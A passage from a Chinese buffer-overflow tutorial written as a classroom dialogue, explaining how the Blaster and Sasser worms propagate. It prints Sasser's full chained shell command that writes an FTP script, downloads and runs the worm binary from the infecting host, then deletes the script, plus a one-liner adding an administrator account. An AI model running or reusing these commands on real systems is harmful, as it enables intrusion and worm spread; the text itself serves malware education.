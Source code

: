 “哦，冲击波的 ShellCode 就只是 TFTP -i ip GET msblast.exe 这句话啊？那和我们的 ShellCode 比起来，差远了也！”古风说道。

“呵呵！是的，通过改 ShellCode 和覆盖地址，可使它的功能更通用、强大。”老师说道，“我们再来看看震荡波，它是通过 FTP 来传播的。”

“FTP 和 TFTP 相比较，功能更加完善，不仅可完成上传和下载文件的功能，还可列出目录，可进行用户名和密码的认证，并且可对文件传送与存储方式进行选择等。在 Windows 下，有许多可以建立 FTP 服务器的软件，比如 Serv_U、WP_FTP 等，还可安装 IIS 服务来建立 FTP 服务器等。”

“震荡波运行时，也是分成了多个线程。其中一个是在本机的 5554 端口上，产生一个小型的 FTP 服务器！震荡波就利用这个服务器来向其他有漏洞的主机发送蠕虫本身文件！”

“接下来，震荡波向其他主机发送攻击代码，如果对方主机有漏洞，则会在 9996 端口绑定一个 Shell，并且会执行以下命令： echo off&echo open [infecting machine's IP] 5554>>cmd.ftp&echo anonymous>>cmd.ftp&echo user&echo bin>>cmd.ftp&echo get [rand]_up.exe>>cmd.ftp&echo bye>>cmd.ftp&echo on&ftp -s:cmd.ftp&[rand]i_up.exe&echo off&del cmd.ftp&echo on ”

“我对上面的命令解释一下。大家知道，‘&’前后的命令在 DOS 下会依次执行。比如 net use ww /add & net localgroup administrators ww /add ，就会先添加一个名为‘ww’的用户，然后再将‘ww’加入管理员组。”

“这里震荡波先使用重定向符号‘>>’向 cmd.ftp 文件中输入：”

```
open [infecting machine's IP] 5554 //连接 5554 端口，即进入小型 FTP 服务器
　　anonymous //用户名，为匿名
　　user //密码
　　bin //二进制模式
　　get [rand]_up //接收震荡波蠕虫的文件！！
　　bye //退出 FTP 服务器 
```

“然后再用经典的：”

```
ftp -s:cmd.ftp //即用 cmd.ftp 内的参数，执行 ftp，完成下载★ 
```

“最后执行震荡波蠕虫文件和删除 cmd.ftp：”

```
[rand]i_up.exe del cmd.ftp★ 
```

“这样，就完成了震荡波从一台主机向另一台主机的传播！”

“哦，原来是这样啊！还是比较简单啊！”

“呵呵，大家经过这半期的学习，应该能轻松写出比他们更好的功能吧？”

“嗯，是啊！原来传说中的冲击波/震荡波病毒也没多了不起啊！”古风自信的说。

“老师，你说他们写冲击波/震荡波干嘛？只是传播一下么？对作者什么用处也没有？”玉波问道。

“他们只是想表达一种表现欲！希望别人佩服自己的能力。”老师说道，“大家可千万不要这样啊！这可是违法国家法律的行为。”

# 6.3.3 突破防火墙

### 6.3.3 突破防火墙

“而第三个技巧，就是考虑如何突破防火墙和一些限制环境了！”

“我们的反连 ShellCode 不是可以起到突破防火墙的作用吗？”玉波问道。如图 6－23。

![](img/Q 版缓冲区溢出教程 207676.jpg)

